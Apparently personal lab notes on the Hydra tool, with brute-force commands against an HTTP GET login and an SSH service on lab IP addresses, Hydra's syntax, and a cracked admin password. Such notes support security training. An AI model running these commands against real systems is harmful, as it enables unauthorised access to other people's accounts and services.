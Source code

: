 
# Hydra 


hydra syntax to use a wordlist for both username and password and a non default port:

<span style="color:rgb(255, 0, 0)">hydra -L usernames.txt -P passwords.txt 94.237.58.171 -s 32150 http-ge</span><span style="color:rgb(255, 0, 0)">t</span>

to brute force a service like ssh we can use this (using the username satwossh in this case): 

<span style="color:rgb(255, 0, 0)">hydra -l satwossh -P passwords.txt ssh://94.237.63.198 -s 34740</span>  

```bash
hydra [-l LOGIN|-L FILE] [-p PASS|-P FILE] [-C FILE] -m MODULE [service://server[:PORT][/OPT]]
```

(to log into ssh without default port: ssh satwossh@94.237.63.198 -p 34740)

 found: host: 94.237.58.171   login: admin   password: Admin123